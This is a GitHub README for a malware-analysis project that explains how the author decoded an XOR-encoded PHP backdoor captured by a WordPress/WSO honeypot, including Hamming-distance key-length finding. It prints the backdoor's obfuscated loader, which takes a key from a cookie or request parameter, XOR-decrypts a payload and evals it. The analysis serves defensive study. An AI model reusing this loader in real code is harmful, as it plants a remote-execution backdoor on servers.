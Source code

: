 # xor-decoding
## Decoding Exclusive-or encoded malware payloads

[Similar or better tool](https://github.com/hellman/xortool)

[Same malware analysis in French](https://nyx.cx/analyse-dune-backdoor-php.html)

[Another analysis](https://blog.sucuri.net/2013/12/how-we-decoded-some-nasty-multi-level-encoded-malware.html)

[Different malware, same encoding and key](http://pastebin.com/1XE208s6)

During the summoer of 2014, I [wrote and ran](http://stratigery.com/phparasites/)
a honey pot that emulated a poorly maintained WordPress 2.9 installation. I ended up
including a simulated ["WSO" web shell](https://github.com/bediger4000/malware-phylogeny)
as part of the honey pot, because attackers included WSO web shells in so many of
their fake WordPress plugins. I had a two phase honey pot: first phase simulated
WordPress, the second phase simulated WSO.

Attackers use WSO as a file uploader more than they use it for anything else. I find
this puzzling, as WSO includes so much more functionality. I'm not a bottom feeding
WordPress cracker, but it would make more sense to have a smaller-size file uploader
to me. Attackers uploaded many pieces of malware using the honey pot's
simulated WSO web shell. One of these uploads occurred Wed Aug 28 04:05:52 2013 MDT.
The simulated WSO web shell kept a log of its environment, PHP "superglobal" values,
HTTP cookie values and many other things. The simulated web shell also allows file
uploads by emulating WSO's `uploadFile` command, part of the `FilesMan` "action".

The attacker, from 95.211.231.143 at the time, uploaded a file named "ku.php".
Unfortunately, no attacker tried to GET or POST to a "ku.php" URL.

I've included the simulated WSO web shell's logged data as file
[95.211.231.143Uh3LiAoAAAMAAAEbNe0AAAAH.mod_system.scans](https://github.com/bediger4000/xor-decoding/blob/master/95.211.231.143Uh3LiAoAAAMAAAEbNe0AAAAH.mod_system.scans)
in this repo, and the uploaded file as [95.211.231.143Uh3LiAoAAAMAAAEbNe0AAAAHfile](https://github.com/bediger4000/xor-decoding/blob/master/95.211.231.143Uh3LiAoAAAMAAAEbNe0AAAAHfile).

My goal is to document how to de-obfuscate and reverse engineer the "ku.php" file,
which ultimately involved finding XOR-encoding key strings.

## Initial Reading of ku.php

My initial read of `ku.php` showed me that, when executed, it tried to download
the contents of `http://smtp.botabota.biz/ku/ku.txt` to a local file, and return
the URL where someone could access the local file from the Internet. The last line
of `ku.php` didn't fit with the rest of the code. The last line was 12,941 characters
long, and contained some ugly code. After pretty printing, that 12,941 character
line looked like this:

    <?php
    for (
          $o = 0, $e = 'string of random-appearing characters',$d = '';
          @ord($e[$o]);
          $o++)
    ) {
        if ($o < 16) {
            $h[$e[$o]] = $o;
        } else {
            $d .= @chr(($h[$e[$o]] << 4) + $h[$e[++$o]]);
        }
    }
    if (!@isset($_SERVER)) {
        $_COOKIE =& $HTTP_COOKIE_VARS;
        $_POST =& $HTTP_POST_VARS;
        $_GET =& $HTTP_GET_VARS;
    }
    $k = $_COOKIE['key'];
    if (empty($k)) {
        $k = $_POST['key'];
    }
    if (empty($k)) {
        $k = $_GET['key'];
    }
    if (!@function_exists('decrypt')) {
        eval('function decrypt($e,$k){if(!$k){return;}$el=@strlen($e);$kl=@strlen($k);$rl=$el%$kl;$fl=$el-$rl;for($o=0;$o<$fl;$o+=$kl){$p=@substr($e,$o,$kl);$d.="$k"^"$p";}if($rl){$p=@substr($e,$fl,$rl);$k=@substr($k,0,$rl);$d.="$k"^"$p";}return($d);}');
    }
    $d = @decrypt($d, $k);
    eval($d);

`ku.php` seemed to have been backdoored: some oddly encoded bytes get decoded,
then decrypted, and then evaluated. The decryption function was included in `ku.php`, and
the decryption key would arrive as part of the HTTP request for `ku.php`.

Pretty-printing `function decrypt()` from the string in `ku.php` showed me that whatever
code was concealed was actually XOR-encoded. A key in the form of a printable text string
would be bitwise exclusively or-ed with the decoded bytes.

    function decrypt($e, $k)
    {
        if (!$k) {
            return;
        }
        $el = @strlen($e);
        $kl = @strlen($k);
        $rl = $el % $kl;
        $fl = $el - $rl;
        for ($o = 0; $o < $fl; $o += $kl) {
            $p = @substr($e, $o, $kl);
            $d .= "{$k}" ^ "{$p}";
        }
        if ($rl) {
            $p = @substr($e, $fl, $rl);
            $k = @substr($k, 0, $rl);
            $d .= "{$k}" ^ "{$p}";
        }
        return $d;
    }

Unfortunately, no attacker ever tried to access the "ku.php" code, so I did not
have the text string key.

## Getting the xor-encoded payload

1. Extract the 12,941 character payload, which comprises the last line of file `95.211.231.143Uh3LiAoAAAMAAAEbNe0AAAAHfile`.
2. Change `eval($d)` call to `print($d);` in that last line. This gives us the first intermediate code.
3. Execute the first intermediate code.
4. Delete some lines in the output of the first intermediate code that pertain to finding the key string, and again change `eval(` to `print(`. That gives us the second intermediate code.
5. Execute the second intermediate code, whose output is the XOR-encoded mystery payload.

Executing `make puzzling.dat` does those 5 steps, with the XOR-encoded mystery paylod ending up in file `puzzling.dat`
The file `makefile` documents how to do all those steps with a Linux shell.

## Finding key size

The program `keysize` finds likely key length(s) by calculating
[Hamming Distance](https://en.wikipedia.org/wiki/Hamming_distance) of blocks of bytes in
xor-encoded ciphertext. That is, `keysize` iterates through possible key lengths, from 2 to 30
characters. It calculates the Hamming Distance, the number of bits that differ, between the
first chunk of bytes of key length, and every other key length-sized block of bytes in
the ciphertext. For example, if we use 9 bytes as possible key length, `keysize` compares
the block of bytes offsets 0-8, with blocks of bytes at offsets 9-17, 18-26, 27-35, ...

`keysize` normalizes the Hamming Distance by dividing by the number
of bytes it compared. Since ciphertext is rarely a multiple of key length, different key
lengths will have different unused chunks of bytes at the end of the file.

The key length that causes the smallest Normalized Hamming Distance
should be the key length. Apparently, this happens because characters do not appear
uniformly throughout any cleartext. 'E' occurs more than 'Q' in English language text.
A particular byte is more likely to occur at a given offset inside key length blocks
of bytes. Since cleartext bytes at the same offset inside key length sized blocks of bytes
get exclusive-or'ed with the same key byte, a slightly smaller Hamming Distance gets
calculated for the real key length.

The key length calculations aren't very demanding:

    $ make keysize
    $ ./keysize puzzling.dat > dat

![Hamming Distance vs Key Length](https://raw.githubusercontent.com/bediger4000/xor-decoding/master/key_length.png)

The above graph shows the result of running `keysize` over the xor-encoded
ciphertext in `puzzling.dat`.  The graph shows 3 outlier values for key length,
8, 12, and 24 bytes.


## Finding the key

	$ make findkeys
	$ ./findkeys -j 5 -n 8 -N 24 -i puzzling.dat

Program `findkeys` guesses possible keys by putting the ciphertext into _keysize_ buffers,
where the Nth ciphertext byte goes into buffer N%keylength. Assuming a particular
key length, all bytes that got xor-ed with key byte M end up in buffer M.
